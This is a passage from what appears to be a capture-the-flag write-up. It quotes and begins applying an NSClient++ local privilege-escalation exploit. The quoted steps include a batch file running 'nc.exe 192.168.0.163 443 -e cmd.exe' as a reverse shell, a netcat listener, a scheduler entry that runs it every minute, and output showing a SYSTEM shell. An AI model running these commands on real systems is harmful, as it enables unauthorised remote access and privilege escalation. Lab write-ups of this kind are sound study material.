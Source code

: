 ```
- CheckExternalScripts
- Scheduler

3. Download nc.exe and evil.bat to c:\temp from attacking machine
        @echo off
        c:\temp\nc.exe 192.168.0.163 443 -e cmd.exe

4. Setup listener on attacking machine
        nc -nlvvp 443

5. Add script foobar to call evil.bat and save settings
- Settings > External Scripts > Scripts
- Add New
        - foobar
                command = c:\temp\evil.bat

6. Add schedulede to call script every 1 minute and save settings
- Settings > Scheduler > Schedules
- Add new
        - foobar
                interval = 1m
                command = foobar

7. Restart the computer and wait for the reverse shell on attacking machine
        nc -nlvvp 443
        listening on [any] 443 ...
        connect to [192.168.0.163] from (UNKNOWN) [192.168.0.117] 49671
        Microsoft Windows [Version 10.0.17134.753]
        (c) 2018 Microsoft Corporation. All rights reserved.

        C:\Program Files\NSClient++>whoami
        whoami
        nt authority\system

Risk:
The vulnerability allows local attackers to escalate privileges and execute arbitrary code as Local Systemkali@kali:~$ 
```

So let's work with this script:

We already have the administrator password and those modules are already enabled (we see this navigating to the "modules" tab).
Lets create the evil.bat file, download netcat and copy all using:

```
scp ./* Nadine@10.10.10.184:/temp
```

Before anything, let's test that evil.bat works.
If we open a nc listener in our machine and execute evil.bat, we will have a reverse shell with Nadine rights.
